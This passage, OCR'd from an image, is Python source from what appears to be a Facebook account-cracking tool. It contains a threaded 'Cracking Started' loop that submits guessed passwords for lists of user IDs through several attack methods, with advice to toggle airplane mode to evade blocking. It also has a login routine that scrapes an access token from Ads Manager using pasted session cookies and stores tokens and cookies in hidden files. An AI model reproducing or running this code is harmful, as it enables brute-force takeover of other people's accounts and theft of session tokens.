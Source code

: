             print(f"\r{A}Use flight (airplane) mode before use {S}")
            print(47*"-")
            print(f'{S} Total IDs : %s ' % len(self.id))
            print(f'{S} Cracking Started...')
            print(47*"-")
            with JahidRex(max_workers=30) as Rexworld:
                for zsb in self.id:
                   try:
                       uid, name = zsb.split('|')
                       sz = name.split(' ')
                       if len(sz) == 3 or len(sz) == 4 or len(sz) == 5 or len(sz) == 8:
                           pwx =  pw
                       else:
                            pwx =  pw
                            if 'methodA' in methods:
                                Rexworld.submit(self.methodA, uid, name, pwx)
                            elif 'methodB' in methods:
                                Rexworld.submit(self.methodB, uid, name, pwx)
                            elif 'methodC' in methods:
                                Rexworld.submit(self.methodC, uid, name, pwx)
                            elif 'methodD' in methods:
                                Rexworld.submit(self.methodD, uid, name, pwx)
                   except:pass
            result(oks,cps)   
            

def remove_Tc():
        os.system('rm -rf .token.txt .cookie.txt');print(f'\n{F}Logout Successfully ...')
        login()
        
def login():
    clear()
    print('\x1b[00m\tLogin Using Cookies') 
    try:
        fbcokis= input('\n\x1b[00mPut Cookies:\x1b[92m')
        fact = requests.get("https://adsmanager.facebook.com/adsmanager/", cookies = {"cookie":fbcokis},headers=head).text
        act = re.search("act=(.*?)&nav_source",str(fact)).group(1)
        ftoken = requests.get(f"https://adsmanager.facebook.com/adsmanager/manage/campaigns?act={act}&nav_source=no_referrer", cookies = {"cookie":fbcokis}).text
        eaab = re.search('accessToken="(.*?)"',str(ftoken)).group(1)
        open(".tokn.txt", "w").write(eaab)
        open(".cokis.txt", "w").write(fbcokis)
        token = open('.tokn.txt','r').read()
        info = requests.get('https://graph.facebook.com/me/?access_token='+token,cookies = {"cookie":fbcokis}).json()
        print(f"{R}Login Successfully")
        menu()
    except Exception as error: 
        os.system("rm -f .tokn.txt")
        print("\x1b[1;91m\n\t\t[!] Cookies Expired ")
        slp(2)
        login()
